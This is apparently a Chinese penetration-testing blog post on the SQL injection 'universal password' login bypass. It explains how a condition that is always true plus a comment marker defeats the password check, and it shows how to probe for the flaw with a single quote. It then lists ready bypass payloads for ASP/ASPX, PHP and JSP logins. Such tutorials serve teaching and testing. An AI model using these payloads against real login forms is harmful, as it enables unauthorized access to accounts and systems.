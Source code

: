 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
excerpt: 万能密码漏洞
---
```

> 如果觉得这篇文章写的不错，来给我[打赏鼓励](http://d3.freep.cn/3tb_160710193136wkl4568789.jpg)一下吧~我会写出更好的文章

## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为

{% highlight sql %}
SELECT * FROM admin WHERE Name='admin' and passWord='123'
{% endhighlight %}


而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

{% highlight sql %}
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
{% endhighlight %}

此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

### ASP ASPX万能密码

>* "or "a"="a
>* ')or('a'='a
>* or 1=1--
>* 'or 1=1--
>* a'or' 1=1--
>* "or 1=1--
>* 'or'a'='a
>* "or"="a'='a
>* 'or''='
>* 'or'='or'
>* 1 or '1'='1'=1
>* 1 or '1'='1' or 1=1
>* 'OR 1=1%00
>* "or 1=1%00
>* 'xor
>* 用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1
>* ..admin' or 'a'='a 密码随便

### PHP万能密码

>* 'or 1=1/*
>* User: something
>* Pass: ' or '1'='1

### JSP 万能密码

>* 1'or'1'='1
>* admin' or 1=1/*